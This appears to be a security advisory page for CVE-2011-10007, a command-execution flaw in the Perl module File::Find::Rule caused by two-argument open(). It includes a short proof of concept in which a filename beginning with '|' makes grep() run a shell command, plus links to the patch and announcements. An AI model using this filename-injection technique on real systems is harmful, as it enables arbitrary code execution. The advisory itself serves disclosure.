 # CVE-2011-10007

**2025-06-05 12:15:22**

## Description
File::Find::Rule through 0.34 for Perl is vulnerable to Arbitrary Code Execution when `grep()` encounters a crafted filename.

A file handle is opened with the 2 argument form of `open()` allowing an attacker controlled filename to provide the MODE parameter to `open()`, turning the filename into a command to be executed.

Example:

$ mkdir /tmp/poc; echo > "/tmp/poc/|id"
$ perl -MFile::Find::Rule \
    -E 'File::Find::Rule->grep("foo")->in("/tmp/poc")'
uid=1000(user) gid=1000(user) groups=1000(user),100(users)

![](https://img.shields.io/static/v1?label=Score&message=8.8&color=red)
![](https://img.shields.io/static/v1?label=Severity&message=HIGH&color=red)
![](https://img.shields.io/static/v1?label=CWE&message=RCE&color=green)

## Links
- [https://github.com/richardc/perl-file-find-rule/commit/df58128bcee4c1da78c34d7f3fe1357e575ad56f.patch](https://github.com/richardc/perl-file-find-rule/commit/df58128bcee4c1da78c34d7f3fe1357e575ad56f.patch)
- [https://github.com/richardc/perl-file-find-rule/pull/4](https://github.com/richardc/perl-file-find-rule/pull/4)
- [https://metacpan.org/release/RCLAMP/File-Find-Rule-0.34/source/lib/File/Find/Rule.pm#L423](https://metacpan.org/release/RCLAMP/File-Find-Rule-0.34/source/lib/File/Find/Rule.pm#L423)
- [https://rt.cpan.org/Public/Bug/Display.html?id=64504](https://rt.cpan.org/Public/Bug/Display.html?id=64504)
- [http://www.openwall.com/lists/oss-security/2025/06/05/4](http://www.openwall.com/lists/oss-security/2025/06/05/4)
- [http://www.openwall.com/lists/oss-security/2025/06/06/1](http://www.openwall.com/lists/oss-security/2025/06/06/1)
- [http://www.openwall.com/lists/oss-security/2025/06/06/3](http://www.openwall.com/lists/oss-security/2025/06/06/3)
- [https://lists.debian.org/debian-lts-announce/2025/06/msg00006.html](https://lists.debian.org/debian-lts-announce/2025/06/msg00006.html)
- [https://github.com/richardc/perl-file-find-rule/pull/4](https://github.com/richardc/perl-file-find-rule/pull/4)
